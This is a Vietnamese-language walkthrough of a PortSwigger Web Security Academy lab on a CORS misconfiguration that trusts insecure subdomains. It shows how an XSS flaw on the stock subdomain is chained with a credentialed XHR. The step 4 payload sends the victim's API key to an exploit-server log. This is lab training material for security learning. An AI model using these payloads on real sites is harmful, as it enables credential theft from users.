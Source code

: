 ## CORS vulnerability with trusted insecure protocols (REFER)

1. Login vào tài khoản được cấp. Gửi endpoint `/accountDetails` vào repeater thêm thử origin header với subdomain bất kỳ của lab nhận thấy `ACAO` header được reflect. 

![Img1](\asset/../img/detect1.png)

2. Trong chức năng check stock sẽ redirect đến 1 subdomain của lab. Nhận thấy lỗ hổng xss ở trang check stock.

![Img2](\asset/../img/detect2.png)

→ ta có thể sử dụng lỗ hổng XSS trên subdomain stock để thực hiện lấy API key. Bằng cách gửi từ trang subdomain stock gửi một xhr request via xss để có thể bypass whitelist origin header cho phép.

3. Thử với tài khoản được cấp, chèn đoạn js sau vào trang check stock 

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
	req.responseType = 'json';
    req.open('get', 'https://0a85009604e969e6c17d7133009000b5.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();
    
    function reqListener() {
        document.write(req.response.apikey);
    };
</script>
``` 

![Img3](\asset/../img/exploit.png)

4. Craft trang exploit, viết script để victim tự động chuyển hướng đến trang stock bị XSS

```
<script>
    document.location="http://stock.0a85009604e969e6c17d7133009000b5.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.responseType = 'json';req.open('get','https://0a85009604e969e6c17d7133009000b5.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a9800ce04746907c17a70df012400dc.exploit-server.net/log?key='%2breq.response.apikey; };%3c/script>&storeId=1"
</script>

```

5. Nhận được apikey 

![Img4](\asset/../img/apikey.png)